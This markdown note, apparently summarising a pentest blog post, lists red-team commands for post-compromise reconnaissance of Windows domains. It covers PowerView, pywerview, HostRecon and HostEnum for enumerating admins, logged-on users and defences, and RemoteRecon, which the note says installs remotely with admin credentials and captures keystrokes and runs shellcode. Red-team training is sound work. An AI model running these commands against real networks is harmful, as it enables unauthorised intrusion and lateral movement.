

This note contains data about commands should be run to gather domain information. ([Reference](https://pentestlab.blog/2018/05/28/situational-awareness/))
# I. [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- PowerView is a PowerShell script which was developed by Will Schroeder and is part of PowerSploit framework and Empire. The script relies solely on PowerShell and WMI (Windows Management Instrumentation) queries.

```bash
Import-Module PowerView.ps1
```
- REtrieve domain name info
```bash
Get-NetDomain
```

- Discover local admins
```bash
Invoke-EnumerateLocalAdmin
```

- The **Invoke-UserHunter** can assist to expand network access since it can identify systems which users are logged into and can verify if the current user has local administrator access to these hosts.
```bash
Invoke-UserHunter
```

- Get forest info 
```bash
Get-NetForest
```

***Note: PowerView is also implemented inside Empire and Python***
*** [Python implementation of PowerView](https://github.com/the-useless-one/pywerview) which can be executed from a host that is not part of the domain if credentials are supplied ***
```bash
python pywerview.py get-netshare -w PENTESTLAB -u test -p Pass --computername WIN-TEST
```

# II. [HostRecon](https://github.com/dafthack/HostRecon)
- There is a also a PowerShell script which automates the task of situational awareness in a host. Beau Bullock developed HostRecon and can retrieve various information from a host using PowerShell and WMI queries to evade detection.
```bash
Import-Module HostRecon.ps1
Invoke-HostRecon
```

- HostRecon can enumerate the local users and the local administrators of the host.

- The script will perform a series of checks to determine the firewall status, the antivirus solution installed, if LAPS is used and the application whitelisting product. Since remain stealthy is a high priority in a red team assessment gaining that knowledge is essential for the evasion actions that will be used in this stage and later.

- The script also tries to identify and some domain information like the domain password policy, the domain controllers and the domain administrators.

# III. [HostEnum](https://github.com/threatexpress/red-team-scripts/blob/master/HostEnum.ps1)
- A similar script to HostRecon was developed by Andrew Chiles that provides detailed information when it is executed in a host. HostEnum can be executed either locally or from memory and can generate output in HTML format.
```bash
Import-Module HostEnum.ps1
Invoke-HostEnum -Local -Domain
```

- The parameter -Domain will perform and some domain checks like retrieving the list of domain users and other domain information.


# IV. RemoteRecon
- In the scenario where local administrator credentials have been obtained and these credentials are shared into a number of hosts it is possible to utilize WMI in order to perform situational awareness on remote hosts. RemoteRecon was developed by Chris Ross and its purpose is to allow the red teamers to conduct recon without deploying the original implant. The script can capture keystrokes and screenshots, execute commands and shellcode and also can load PowerShell scripts for additional tasks.
- Prior to any operation the script needs to be installed first remotely into hosts by using local administrator credentials or if the current user is already local admin on the target host only the computer name is necessary.
```bash
Import-Module .\RemoteRecon.ps1
Install-RemoteRecon -ComputerName 'WIN-2NE38K15TGH'
```

- Output of the commands that are executed via the script can be retrieved with the Results parameter.
```bash
Invoke-PowerShellCmd -ComputerName 'WIN-2NE38K15TGH' -Cmd "ps -name exp" -Verbose
Invoke-PowerShellCmd -ComputerName 'WIN-2NE38K15TGH' -Results
```
